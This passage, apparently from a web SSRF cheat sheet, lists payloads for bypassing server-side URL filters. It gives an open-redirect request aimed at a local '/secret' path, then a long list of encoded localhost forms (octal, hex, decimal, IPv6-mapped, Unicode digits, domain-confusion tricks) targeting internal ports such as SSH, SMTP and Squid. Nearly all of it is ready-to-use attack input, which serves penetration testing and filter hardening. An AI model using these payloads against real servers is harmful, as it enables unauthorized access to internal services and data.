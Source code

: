 ### Open Redirect SSRF Bypass[](https://highon.coffee/blog/ssrf-cheat-sheet/#open-redirect-ssrf-bypass)

Open redirects can potentially be used to bypass server side whitelist filtering, by appearing to be from the target domain (which has an increased chance of being whitelisted).

Example:

```bash
/foo/bar?vuln-function=http://127.0.0.1:8888/secret
```

### Basic locahost bypass attempts[](https://highon.coffee/blog/ssrf-cheat-sheet/#basic-locahost-bypass-attempts)

Localhost bypass:

```bash
All IPv4: 0
All IPv6: ::
All IPv4: 0.0.0.0
Localhost IPv6: ::1
All IPv4: 0000
All IPv4: (Leading zeros): 00000000
IPv4 mapped IPv6 address: 0:0:0:0:0:FFFF:7F00:0001
8-Bit Octal conversion: 0177.00.00.01
32-Bit Octal conversion: 017700000001
32-Bit Hex conversion: 0x7f000001
```

various bypasses:

```bash
127.0.0.1:80
127.0.0.1:443
127.0.0.1:22
127.1:80
0
0.0.0.0:80
localhost:80
[::]:80/
[::]:25/ SMTP
[::]:3128/ Squid
[0000::1]:80/
[0:0:0:0:0:ffff:127.0.0.1]/thefile
①②⑦.⓪.⓪.⓪
127.127.127.127
127.0.1.3
127.0.0.0
2130706433/
017700000001
3232235521/
3232235777/
0x7f000001/
0xc0a80014/
{domain}@127.0.0.1
127.0.0.1#{domain}
{domain}.127.0.0.1
127.0.0.1/{domain}
127.0.0.1/?d={domain}
{domain}@127.0.0.1
127.0.0.1#{domain}
{domain}.127.0.0.1
127.0.0.1/{domain}
127.0.0.1/?d={domain}
{domain}@localhost
localhost#{domain}
```